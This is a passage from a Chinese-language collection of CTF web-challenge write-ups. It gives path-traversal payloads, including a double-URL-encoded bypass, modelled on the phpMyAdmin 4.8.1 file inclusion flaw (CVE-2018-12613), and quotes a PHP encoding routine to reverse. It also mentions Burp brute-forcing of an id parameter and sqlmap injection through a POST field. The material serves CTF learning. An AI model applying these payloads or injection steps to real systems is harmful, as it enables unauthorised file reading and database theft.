 关键点便是绕过`emmm::checkFile($_REQUEST['file'])`这个函数的校验, 满足代码里面的2, 3两个点中的任意一点, 使其返回`true`即可.

**最终payload**

```http
file=hint.php?/../../../../../../../../ffffllllaaaagggg
file=hint.php%253f/../../../../../../../../ffffllllaaaagggg
12
```

ref:[phpmyadmin 4.8.1 远程文件包含漏洞（CVE-2018-12613）](https://www.cnblogs.com/leixiao-/p/10265150.html)

### NSCTF web2

```php
 <?php 
$miwen="a1zLbgQsCESEIqRLwuQAyMwLyq2L5VwBxqGA3RQAyumZ0tmMvSGM2ZwB4tws"; 

function encode($str){ 
    $_o=strrev($str); 
    // echo $_o; 
         
    for($_0=0;$_0<strlen($_o);$_0++){ 
        
        $_c=substr($_o,$_0,1); 
        $__=ord($_c)+1; 
        $_c=chr($__); 
        $_=$_.$_c;    
    }  
    return str_rot13(strrev(base64_encode($_))); 
} 

highlight_file(__FILE__); 
/* 
   逆向加密算法，解密$miwen就是flag 
*/ 
?>   
```

ref:[https://www.cnblogs.com/Mikasa-Ackerman/p/11199677.html](https://www.cnblogs.com/Mikasa-Ackerman/p/11199677.html)

### XCTF 4th-CyberEarth

 id可能有问题,扔到bp里爆破,2333的时候出flag.私以为这种工具流还挺好用...

​	 

### XCTF 4th-QCTF-2018 NewsCenter

  post型的注入,扔到sqlmap里,--data 'search'跑表, 看infomation_schema 最后有个fl4g列,完事儿

​	

### csaw-ctf-2016-quals
